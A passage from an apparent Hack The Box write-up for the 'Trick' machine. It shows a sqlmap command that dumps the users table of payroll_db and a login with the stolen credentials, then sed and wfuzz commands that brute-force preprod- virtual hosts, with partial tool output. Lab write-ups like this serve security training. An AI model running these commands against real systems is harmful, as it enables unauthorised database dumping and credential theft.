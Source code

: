 Now for the entries in the `users` table.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ sqlmap -r login.req http://preprod-payroll.trick.htb/ -D payroll_db -T users --dump
```

![users table](17.png "users table")

Logging with these credentials we get the following page.

![Logged in](18.png "Logged in")

I couldn't find anything further here so moved on to brute-forcing `vhosts`.

Brute-forcing `vhosts` we couldn't find any so we can try brute-forcing with a pattern `preprod-<subdomain>.trick.htb`

We can first use `sed` command to add a prefix to our wordlist then use `wfuzz` to brute-force subdomains based on their character count.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ sed -e 's/^/preprod-/' /home/kali/Documents/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt  > newWordlist
```

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ wfuzz -c -f sub-fighter -w newWordlist -u 'http://trick.htb' -H "Host: FUZZ.trick.htb"  --hh 5480
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://trick.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
```